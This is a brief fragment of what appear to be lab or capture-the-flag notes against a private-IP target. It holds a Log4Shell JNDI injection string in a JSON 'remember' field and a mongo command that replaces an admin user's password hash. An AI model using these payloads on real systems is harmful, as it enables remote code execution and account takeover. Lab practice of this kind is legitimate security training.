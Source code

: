 +++
+++

Target IP: 10.129.44.246


"remember":"${jndi:ldap://10.129.44.246:1389/o=tomcat}",


mongo --port 27117 ace --eval 'db.admin.update({"_id":"ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$41mboVhdbf.Mxj6r$vGwChPEp8QLugq12ri4qTM1MyRTcXbkPAOmaaaFuoAeNp0k9ShyRQMVx0wi2Gb2/Qc1wEIL1IfAeHoLOKaQCO1"}})'

